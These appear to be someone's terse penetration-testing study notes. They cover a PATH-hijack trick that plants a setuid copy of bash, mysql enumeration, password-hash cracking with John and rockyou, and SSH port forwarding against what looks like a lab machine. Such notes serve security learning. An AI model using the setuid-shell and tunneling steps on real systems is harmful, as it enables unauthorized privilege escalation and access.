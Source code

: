 ```yaml
---
sort : 1
--- 
```



# Soon... 


Network/wireless/physical/Firewall/Social Eng/ .... Penetration testing ?? 
<!-- https://purplesec.us/types-penetration-testing/ -->


<!-- https://start.me/p/PwmnBd/web --> ALL 
<!-- https://www.mindmeister.com/1470766611/web-app-pentest?fullscreen=1 -->



Finding real IP behind CloudFlare or Tor
<!-- https://www.secjuice.com/finding-real-ips-of-origin-servers-behind-cloudflare-or-tor/ -->



# be curious and not just a script kiddie.














# Attacks list

* PATH hijack  
    ```bash
    cd /tmp 
    export PATH=/tmp:$PATH

    echo "reverse shell" > bin
    # OR
    echo -ne '#!/bin/bash\ncp /bin/bash /tmp/bash\nchmod 4755 /tmp/bash' > bin 
    
    chmod +x bin
    ...

    ```
* Execution After Redirect (EAR)
* mysql ?? 
    ``` 
    mysql -u root -p 'passwd between qoutes' -e 'show databases;'
    mysql -u root -p 'passwd between qoutes' databaseName -e 'show tables;'
    mysql -u root -p 'passwd between qoutes' databaseName -e 'select * from table;' 
    ```







# Hash cracking
```bash
# md5   $1$ 

echo "hash" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash.txt



# if you know the salt 




```

Single Page Application (SPA)" that was made using Vue Js.






# Linpeas.sh Analysis !! 
```bash
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1837/node /u	sr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -   
```


this shows the running services (maybe another web server ^^)

```
/etc/apache2/sites-enabled 
/etc/nginx/sites-enabled
```

# SSH Tunneling / port forwarding

https://linuxhint.com/ssh-port-forwarding-linux/

```bash
# local port forwarding : run on attacker box		
	
$ ssh -i User -L 8888:127.0.0.1:8000 User@10.10.11.105	==> after running it you will connect to the machine as a User ^^ 
$ id 
    uid=1001(User) gid=1001(User) groups=1001(User)

# go to the browser :: http://127.0.0.1:8888/   ===> forwarded to 127.0.0.1:8000 on the victim machine 

# means locally (on the attacker machine) bind my localhost with 8888 port to the service running on 127.0.0.1:8000 thro this {ssh server} User@10.10.11.105
```

==> in /etc/sshd_config  ==> GateWayPorts yes ==> default is no   ////    must be yes

```bash
# remote port forwarding : run on victim box 		

$ ssh -R 8888:127.0.0.1:8000 Attacker@10.10.x.x

# means expose the local service (on the victime machine) running on port 8000 to port 8888 on this ssh server Attacker@10.10.x.x
```